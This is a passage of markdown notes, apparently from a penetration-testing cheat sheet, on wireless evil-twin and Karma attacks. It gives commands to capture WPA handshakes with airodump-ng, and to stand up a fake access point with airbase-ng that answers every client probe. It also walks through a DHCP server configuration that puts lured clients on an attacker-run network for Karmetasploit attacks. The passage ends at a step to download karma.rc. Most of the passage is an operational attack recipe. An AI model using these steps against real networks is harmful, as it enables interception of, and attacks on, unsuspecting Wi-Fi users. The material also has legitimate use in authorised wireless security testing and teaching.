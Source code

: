 #### 5.1.2 fake marker1
Useful if a AP in out of range but a client is.
Try to trick client into fake AP with same name as target AP.

1. capture packets on monitoring device for WPA handshake
`> airodump-ng -c <channel> -d <mon dev MAC> -w <capture file> <mon dev>`

2. start basic fake AP (-z 4 for WPA2 CCMP, -W 1 forces beacons to specify encryption )
`airbase-ng -c 3 -e <target AP name> -z 4 -W 1 <mon dev>`

### 5.2 karmetasploit
Evil child of aircrack-ng , metasploit framework and karma attack.
Karma answers every probe sent out by clients.
Once a client authenticates, wide variety of attacks are possible.

#### 5.2.1 preparation
1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. start fake AP (-P to respond to all probe requests, -C 60 rebroadcast every 60sec)
`airbase-ng -c 3 -P -C 60 -e <name e.g. freewifi> -v <mon dev>`

3. configure newly created interface (e.g. at1) and assign ip address
`> ifconfig <dev> up <ip/mask>`

#### 5.2.2 configure DHCP server
1. create directory for DHCP PID file
`> mkdir -p /var/run/dhcpd`

2. change ownership of directory to dhcp daemon
`> chown -R dhcpd:dhcpd /var/run/dhcpd`

3. create an empty lease file
`> touch /var/lib/dhcp3/dhcpd.leases`

4. create a temp dhcp server config file
```
default-lease-time 60;
max-lease-time 72;
ddns-update-style none;
authoritative;
log-facility-local7;
subnet 10.0.0.0 netmask 255.255.255.0 {
range 10.0.0.100 10.0.0.254;
option routers 10.0.0.1;
option domain-name-servers 10.0.0.1;}
```

5. create empty log file
`> touch /tmp/dhcp.log && chown dhcpd:dhcpd /tmp/dhcp.log`

6. run dhcp server (-f for service)
`dhcp3 -f -cf <dhcpd.conf> -pf <pid.file> -lf <logfile> <at1 interface>`

#### 5.2.3 setup and run karmetasploit
download karma.rc from offsec
